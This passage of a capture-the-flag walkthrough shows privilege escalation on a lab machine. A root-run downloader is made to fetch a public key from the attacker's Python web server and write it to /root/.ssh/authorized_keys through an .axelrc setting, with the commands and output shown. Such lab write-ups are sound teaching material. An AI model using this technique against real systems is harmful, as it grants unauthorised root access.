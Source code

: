### Axelrc

After checking the useragent of the downloader we see that it is `User-Agent': 'Axel/2.16.1 (Linux)`. Another way to abuse this is the `.axelrc` file. In this file we are able to specify a default filename for downloaded files. This applies in cases where the url does not contain a filename. First we create an `.axelrc` in aaron's home directory.

```
aaron@timing:~$ cat .axelrc
default_filename = /root/.ssh/authorized_keys
```

Then we create a ssh keypair moving the public key to `index.html`.

```
cp ../root.pub index.html
```

Next we serve the public key with a python webserver and initiate the download without a filepath.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.14.59
Initializing download: http://10.10.14.59
File size: 565 bytes
Opening output file /root/.ssh/authorized_keys
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 565 byte in 0 seconds. (5.50 KB/s)

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >>
```

This leads to `index.html` getting downloaded and saved as `/root/.ssh/authorized_keys`.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.189.14 - - [12/Dec/2021 00:02:56] "GET / HTTP/1.0" 200 -
10.129.189.14 - - [12/Dec/2021 00:02:56] "GET / HTTP/1.0" 200 -
```
